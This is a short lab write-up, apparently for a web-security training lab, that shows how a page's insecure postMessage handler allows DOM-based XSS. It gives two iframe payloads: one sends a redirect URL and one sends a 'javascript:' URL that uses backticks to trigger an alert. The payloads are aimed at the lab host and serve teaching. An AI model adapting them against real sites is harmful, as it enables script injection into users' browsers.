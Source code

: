 ```
<iframe src="https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/" onload="this.contentWindow.postMessage('https://as.com','*')" style="width:100%;height:100%">
```

When we click “View”, it redirects to as.com:



![Pobre Luis Enrique](images/19%20-%20DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/2.png)

We can execute Javascript code with javascript:alert(1). As there are already nested quotes and double quotes we can use the character “`” to create an alert message with the previous url, so the payload wil still have “https:”:

```
<iframe src="https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert`https://as.com`','*')" style="width:100%;height:100%">
```



![img](images/19%20-%20DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/3.png)
